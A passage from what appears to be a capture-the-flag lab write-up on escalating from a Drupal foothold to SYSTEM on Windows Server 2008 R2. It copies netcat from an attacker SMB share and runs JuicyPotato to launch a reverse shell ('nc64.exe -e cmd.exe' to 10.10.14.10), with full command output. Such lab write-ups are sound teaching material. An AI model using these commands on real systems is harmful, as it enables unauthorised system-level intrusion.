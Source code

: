 Download the "Juicypotato.exe" binary from the following github repo and save it in the SMB share directory:

{% embed url="https://github.com/ohpe/juicy-potato/releases" %}

We'll also need a copy of netcat on the target. Transfer it from the SMB share directory:

```
C:\inetpub\drupal-7.54>copy \\10.10.14.10\SHARE\nc64.exe
copy \\10.10.14.10\SHARE\nc64.exe
        1 file(s) copied.

C:\inetpub\drupal-7.54>
```

Next, we need a "CLSID" to use for this specific version of Windows. We can use any of the ones on the following page, although some of them may not work.

{% embed url="https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise" %}

Start a new listener, and run the following command to get a reverse shell:

> \10.10.14.10\SHARE\JuicyPotato.exe -l 2345 -p cmd.exe -a "/c C:\inetpub\drupal-7.54\nc64.exe -e cmd.exe 10.10.14.10 8888" -t \* -c {e60687f7-01a1-40aa-86ac-db1cbf673334}

```
C:\inetpub\drupal-7.54>\\10.10.14.10\SHARE\JuicyPotato.exe -l 2345 -p cmd.exe -a "/c C:\inetpub\drupal-7.54\nc64.exe -e cmd.exe 10.10.14.10 8888" -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
\\10.10.14.10\SHARE\JuicyPotato.exe -l 2345 -p cmd.exe -a "/c C:\inetpub\drupal-7.54\nc64.exe -e cmd.exe 10.10.14.10 8888" -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 2345
....
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\inetpub\drupal-7.54>
```

In our listener, we get a shell as "nt authority\system":

```
└─$ nc -nvlp 8888                                                                                          130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49276.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

